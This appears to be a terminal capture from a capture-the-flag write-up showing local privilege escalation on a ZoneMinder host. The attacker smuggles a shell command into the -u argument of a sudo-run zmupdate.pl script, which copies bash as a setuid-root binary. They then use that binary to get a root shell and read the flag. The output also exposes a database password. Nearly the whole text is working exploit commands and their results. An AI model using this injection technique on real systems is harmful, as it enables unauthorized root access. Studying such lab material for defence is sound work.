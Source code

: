 ```console
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(cp /bin/bash /tmp/x; chown root:root /tmp/x; chmod 6777 /tmp/x)'Initiating database upgrade to version 1.36.32 from version 10WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : yDo you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-pZoneMinderPassword2023'@'localhost'" when trying to connect
Output:
Command 'mysqldump -u$(cp /bin/bash /tmp/x; chown root:root /tmp/x; chmod 6777 /tmp/x) -p'ZoneMinderPassword2023' -hlocalhost --add-drop-table --databases zm > /tmp/zm/zm-10.dump' exited with status: 2
zoneminder@surveillance:/tmp$ ls -l x
-rwsrwsrwx 1 root root 1396520 May 13 21:22 x
```

```console
zoneminder@surveillance:/tmp$ ./x -p
x-5.1# id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) egid=0(root) groups=0(root),1001(zoneminder)
x-5.1# cat /root/root.txt
714fb0...
```
